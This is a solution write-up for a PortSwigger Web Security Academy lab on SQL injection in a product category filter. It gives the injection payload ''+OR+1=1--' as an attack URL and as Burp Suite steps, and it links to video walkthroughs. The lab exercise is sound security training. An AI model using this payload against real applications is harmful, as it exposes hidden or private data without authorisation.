


# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.


# Attack





## Attack Query

```sql
/filter?category=Accessories'+OR+1=1--
```


# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the `category` parameter, giving it the value `'+OR+1=1--`
3. Submit the request, and verify that the response now contains additional items.

## Community Solution

Rana Khalil

[SQL Injection - Lab #1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://youtu.be/X1X1UdaC_90)

Michael Sommer

[SQL injection vulnerability in WHERE clause allowing ... (Video solution & Audio)](https://youtu.be/U1tfxVGLPAs)

# Resources

[SQL Injection | Complete Guide](https://youtu.be/1nJgupaUPEQ)

[SQL Injection - Lab #1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://youtu.be/_rCg_-gsQOA)

